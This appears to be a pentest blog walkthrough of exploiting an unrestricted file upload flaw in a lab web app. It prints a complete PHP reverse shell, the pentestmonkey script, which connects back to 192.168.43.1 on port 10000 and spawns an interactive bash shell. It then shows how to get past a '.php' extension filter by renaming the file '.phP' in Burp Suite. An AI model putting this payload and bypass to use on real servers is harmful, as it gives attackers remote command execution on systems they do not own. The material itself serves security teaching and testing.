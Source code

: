 ```yaml
---
title: Unrestricted File Upload -> Bypass
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Unrestricted File Upload -> Bypass]
tags: []  
---
```


# Unrestricted File Upload -> Bypass

# Exploitation

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb1.png)

This webapp is vulnerable to Unrestricted File Upload, which allows attacker to upload file of any format. We will exploit this vulnerablity to get remote command execution.

Let's upload an image file to see how the webapp is behaving.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb2.png)

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb3.png)

As you can see, after uploading the image, we can view it by clicking on the link `here`.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb4.png)

We are going to create malicious php file and upload it to the server, which if executed will provide us with a reverse shell.

This is the content of the file.

```php

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.43.1';
$port = 10000;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```
![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb5.png)

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb6.png)

As you can see, our file has been blocked because the webapp was blocking a file with `.php` extention.

Let's try to replace the file extention with something like `.phP`. We will bypass it if it's only filtering file with `.php`.

Let's submit the file and intercept it in burpsuite.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb7.png)

We will replace `.php` with `.phP` and forward the request.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb8.png)

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb9.png)

Nice!, We have uploaded our php file on the server. We will get a reverse shell by clicking on the link.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/uploadb10.png)

# References

